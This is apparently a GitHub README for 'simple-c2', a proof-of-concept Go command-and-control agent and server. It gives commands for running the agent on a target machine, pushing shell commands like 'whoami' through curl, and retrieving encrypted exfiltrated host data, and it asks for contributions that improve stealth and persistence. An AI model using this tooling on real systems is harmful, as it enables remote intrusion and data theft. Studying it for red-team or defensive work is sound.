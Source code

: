 # simple-c2

this is a bare bones agent/server in go that supports command execution thru curl.
the project is meant mostly to demonstrate automated encryption, exfiltration, reception, and decryption of data from a target machine to an attacker controlled server (in this case, because its a poc on github, we will be demonstrating it over a localhost connection.)

## how to use 


```bash
go mod tidy 
cd server
go run server.go -gen # to generate the required pub/priv RSA key pair
## then start the server
go run server.go 
## to send and receive commands
curl localhost:8080/latest # returns decrypted result for all commands and initial host info gathering
curl -X POST -d "whoami" localhost:8080/exec # sends the "whoami" command to the agent

## on target machine (must be network joined)
go mod tidy
cd cmd
go run main.go # start the agent, gather host info, and poll for commands from /exec 
```

## technical details

aes-gcm (galois counter mode) for authenticated encryption. we generate a random key at runtime and then encrypt it with the RSA public key to ensure data integrity (there are further precautions we can take, like zeroing the key out of memory when it isn't used, but go's GC should handle that and this is a demo). upon completion of the initial host info gathering the results are encrypted, base64 encoded, and sent to the localhost:8080/test endpoint - if successful, you should be able to curl localhost:8080/latest and see the decrypted and decoded results! to send commands to the agent, you can curl -X POST -d "<command>" localhost:8080/exec, and run the same curl to /latest to receive the decrypted output. this is a minimal demonstration, and i encourage people to submit some PRs to improve the stealth of the agent or its capabilities, harden some bad opsec parts like implementing optional debug prints, or using my go-native-syscall library to do host gathering or persistence etc etc so many options! could be a nice first open source contribution.... 